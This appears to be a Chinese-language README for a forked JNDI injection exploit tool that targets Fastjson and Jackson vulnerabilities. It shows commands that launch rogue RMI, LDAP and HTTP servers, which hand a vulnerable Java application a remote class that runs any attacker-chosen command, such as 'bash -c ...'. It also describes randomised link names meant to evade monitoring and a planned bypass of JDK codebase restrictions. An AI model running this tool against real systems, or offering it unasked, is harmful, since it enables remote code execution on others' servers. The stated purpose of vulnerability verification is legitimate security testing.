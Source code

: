 ## 介绍

JNDI注入利用工具，生成JNDI链接并启动后端相关服务，可用于Fastjson、Jackson等相关漏洞的验证。111

原本想自己做一个RMI注入内存马的工具，参考了一下welk1n佬的项目，结果发现佬写的精妙，可以改动的地方很少了已经，索性直接fork大佬的项目，添加工具。
原仓库地址：https://github.com/welk1n/JNDI-Injection-Exploit
## 使用

可执行程序为jar包，在命令行中运行以下命令：

```shell
$ java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar [-C] [command] [-A] [address]
```

其中:

- **-C** - 远程class文件中要执行的命令。

  （可选项 , 默认命令是mac下打开计算器，即"open /Applications/Calculator.app"）

- **-A** - 服务器地址，可以是IP地址或者域名。

  （可选项 , 默认地址是第一个网卡地址）

注意:

- 要确保 **1099**、**1389**、**8180**端口可用，不被其他程序占用。

  或者你也可以在run.ServerStart类26~28行更改默认端口。

- 命令会被作为参数传入**Runtime.getRuntime().exec()**，

  所以需要确保命令传入exec()方法可执行。
  
  **bash等可在shell直接执行的相关命令需要加双引号，比如说 java -jar JNDI.jar -C "bash -c ..."**

## 示例

### 本地演示：

1. 启动 JNDI-Injection-Exploit：

   ```shell
   $ java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "open /Applications/Calculator.app" -A "127.0.0.1"
   ```

    截图：
    ![](https://github.com/welk1n/JNDI-Injection-Exploit/blob/master/screenshots/1.png)


2. 我们需要把第一步中生成的 JNDI链接注入到存在漏洞的应用环境中，方便解释用如下代码模仿漏洞环境：

   ```java
   public static void main(String[] args) throws Exception{
       InitialContext ctx = new InitialContext();
       ctx.lookup("rmi://127.0.0.1/fgf4fp");
   }
   ```

   当上面代码运行后，应用便会执行相应命令，这里是弹出计算器，没截图，可以自己测一下。

   截图是工具的server端日志：

    ![](https://github.com/welk1n/JNDI-Injection-Exploit/blob/master/screenshots/2.png)



## 安装

下面两种方法都可以得到Jar包

1. 从 [Realease](https://github.com/welk1n/JNDI-Injection-Exploit/releases)直接下载最新的Jar。

2. 把源码下载到本地然后自行编译打包。（在Java1.7+ 、Java1.8+ 和 Maven 3.x+环境下测试可以）

   ```shell
   $ git clone https://github.com/welk1n/JNDI-Injection-Exploit.git
   ```

   ```shell
   $ cd JNDI-Injection-Exploit
   ```

   ```shell
   $ mvn clean package -DskipTests
   ```

## 工具实现

1. 首先生成的链接后面codebaseClass是6位随机的，这个是因为不希望让工具生成的链接本身成为一种特征被监控或拦截。
2. 服务器地址实际就是codebase地址，相比于marshalsec中的JNDI server来说，这个工具把JNDI server和HTTP server绑定到一起，并自动启动HTTP server返回相应class，更自动化了。
3. HTTP server基于jetty实现的，本质上是一个能下载文件的servlet，比较有意思的是我提前编译好class模板放到resource目录，然后servlet会读取class文件，使用ASM框架对读取的字节码进行修改，然后插入我们想要执行的命令，返回修改后的字节码。

## 待实现

- （已完成EL表达式绕过部分）在更高版本的JDK环境中trustURLCodebase变量为false，限制了远程类的加载，我会找时间把[JNDI-Injection-Bypass](https://github.com/welk1n/JNDI-Injection-Bypass)这个项目的东西融入到本项目中，生成能绕过JDK限制JNDI链接。
- … ...
